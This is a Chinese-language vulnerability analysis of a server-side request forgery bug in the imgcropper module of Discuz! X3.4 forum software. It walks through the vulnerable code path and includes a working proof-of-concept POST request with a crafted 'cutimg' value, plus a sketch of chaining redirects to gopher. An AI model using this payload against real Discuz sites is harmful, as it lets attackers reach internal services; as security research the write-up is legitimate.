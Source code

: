Discuz! X3.4 imgcropper ssrf
============================

一、漏洞简介
------------

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host
的请求，总的来说比较鸡肋

二、漏洞影响
------------

三、复现过程
------------

`source/class/class_image.php` `image`类`init`方法：

        function init($method, $source, $target, $nosuffix = 0) {
            global $_G;

            $this->errorcode = 0;
            if(empty($source)) {
                return -2;
            }
            $parse = parse_url($source);
            if(isset($parse['host'])) {
                if(empty($target)) {
                    return -2;
                }
                $data = dfsockopen($source);
                $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
                if(!$data || $source === FALSE) {
                    return -2;
                }
                file_put_contents($source, $data);
            }
            ......
      }

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
            $return = $this->init('thumb', $source, $target, $nosuffix);
            ......
        }

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

        require_once libfile('class/image');
        $image = new image();
        $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
        if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
            showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
        }

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而
`$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎
`$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为
`//10.0.1.1/get`，按道理来说这应该算是一个正常的
url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl
处理的代码分支，直到这里：

    curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path);

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url
参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme`
的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl
最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求
`HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket
发包的流程，踩了 `parse_url` 和 Dz
代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

    cutimg=/:@localhost:9090/dz-imgcropper-ssrf

poc:

    POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
    Host: ubuntu-trusty.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    imgcroppersubmit=1&formhash=f8472648

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![](resource/Discuz!X3.4imgcropperssrf/media/rId24.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP
环境没有安装 curl 扩展）￼，但是只能发 HTTP GET
请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl
是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到
127.0.0.1 的 80 端口：

![](resource/Discuz!X3.4imgcropperssrf/media/rId25.jpg)

最后他再利用之前 PHP `parse_url` 的解析 bug（
[https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192)
），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302
跳转到任意恶意地址，最后再 302 跳转到 gopher
就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n -
博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空
Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。

